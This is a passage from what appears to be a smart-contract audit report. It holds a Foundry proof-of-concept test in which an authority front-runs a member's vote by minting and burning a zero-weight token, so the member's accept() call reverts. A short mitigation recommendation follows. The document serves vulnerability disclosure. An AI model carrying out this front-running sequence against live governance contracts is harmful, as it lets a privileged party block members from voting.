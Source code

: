 ```solidity
    );

    vm.prank(address(party));
    party.addAuthority(authority);

    // Mint voting power to alice and bob
    vm.startPrank(address(partyAdmin));

    uint256 aliceToken = party.mint(alice, 50, alice);
    uint256 bobTokenId = party.mint(bob, 50, bob);

    vm.stopPrank();

    // Alice creates proposal
    vm.startPrank(alice);

    uint256 proposalId = party.propose(
        PartyGovernance.Proposal({
            maxExecutableTime: uint40(type(uint40).max),
            cancelDelay: uint40(1 days),
            proposalData: abi.encode(0)
        }),
        0
    );

    vm.stopPrank();

    // Bob is going to vote for proposal but is front-runned by authority to block voting
    // Authority mints a 0 voting token and burns it
    vm.prank(authority);
    uint256 dummyTokenId = party.mint(authority, 0, authority);
    vm.prank(authority);
    party.burn(dummyTokenId);
    // Bob transaction reverts
    vm.expectRevert(PartyGovernance.CannotRageQuitAndAcceptError.selector);
    vm.prank(bob);
    party.accept(proposalId, 0);
}
```

### Recommendation

It is difficult to provide a solution without changing how voting works at the general level in the governance contracts. The issue can be partially mitigated by moving the check to the `proposal()` function. This would prevent the DoS on the `accept()` function while still mitigating the original issue, but would allow the same attack to be performed while members try to create proposals.

### Assessed type

DoS

